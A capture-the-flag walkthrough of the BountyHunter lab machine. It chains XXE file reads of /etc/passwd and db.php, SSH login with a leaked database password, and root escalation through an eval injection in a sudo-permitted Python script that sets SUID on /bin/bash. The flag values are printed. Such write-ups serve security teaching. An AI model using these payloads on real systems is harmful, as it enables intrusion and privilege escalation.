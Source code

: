 ![Explore.PNG](/assets/BountyHunter/BountyHunter.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.100
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.100
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


3. Visit the web page

![web.PNG](/assets/BountyHunter/web.PNG)


4. Go to **Portal** >> Click on **here**

![web2.PNG](/assets/BountyHunter/web2.PNG)


5. Analyze the petition with **BurpSuite**

![burp.PNG](/assets/BountyHunter/burp.PNG)

6. The data is **encode in base64 and urlencode**, use BurpSuite to decode

* First, urldecode data, select all and press `Ctrl` + `Shift` + `u`
* Go to **Decode** and paste the selection data
  
![decode.PNG](/assets/BountyHunter/decode.PNG)

* Look the data tramited is a xml, we can inject entities to read files.


7. Read `/etc/passwd` file

* To do that you need to create a entity like `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`

* Next, encode data int base64

![xxe.PNG](/assets/BountyHunter/xxe.PNG)

8. Send data encode and select all and press `Ctrl` + `u`

![passwd.PNG](/assets/BountyHunter/passwd.PNG)

* We look the users **development** and **root**

9. Use **wfuzz** to find more files .php
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/BountyHunter]
└─| wfuzz -c -t 20 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://bountyhunter.htb/FUZZ.php
```

**Output**
```bash
000000848:   200        0 L      0 W        0 Ch        "db" 
```

* Yep!, sometimes **db files** have credentials

10. Read **db.php** with the entity created, but, this time we use other wrapper to read information.  `php://filter/convert.base64-encode/resource=db.php`

![db.PNG](/assets/BountyHunter/db.PNG)

**Output**

![db_out.PNG](/assets/BountyHunter/db_out.PNG)


11. Decode this data
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/BountyHunter]
└─| echo "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=" | base64 -d
```

**Output**
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

12. With **password:** m19RoAU0hP41A1sTsq6K and **username"** development login with ssh

```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/BountyHunter]
└─| ssh development@10.10.11.100
```

**Output**
```bash
development@bountyhunter:~$ 
```

13. Cat **user flag**
```bash
development@bountyhunter:~$ cat user.txt 
a074825ca361cc83f2f33f49ba876c71
```

14. Search for any permission
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

* We can run **ticketValidator.py** how root

15. Cat the file
```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```


16. The function **eval** can run commands, try to exploit this.

17. You need to create this file in `/tmp`

```txt
# Skytrain Inc
## Ticket to 
__Ticket Code:__
** 11 + 2 and __import__('os').system('chmod u+s /bin/bash')
```

18. And run the python file
```bash
development@bountyhunter:/tmp$ sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
```

**Output**
```bash
development@bountyhunter:/tmp$ sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/ticket.md
Destination: 
Invalid ticket.
```
* After, check permissions of `/bin/bash`
```bash
development@bountyhunter:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

19. Execute commando to get bash how root
```bash
development@bountyhunter:/tmp$ bash -p
```

**Output**
```bash
bash-5.0# whoami
root
```

20. Finally, cat the **root flag** in path `/root`
```bash
bash-5.0# cat root.txt 
9e90210e3c71235729ec0277234e4ca5
```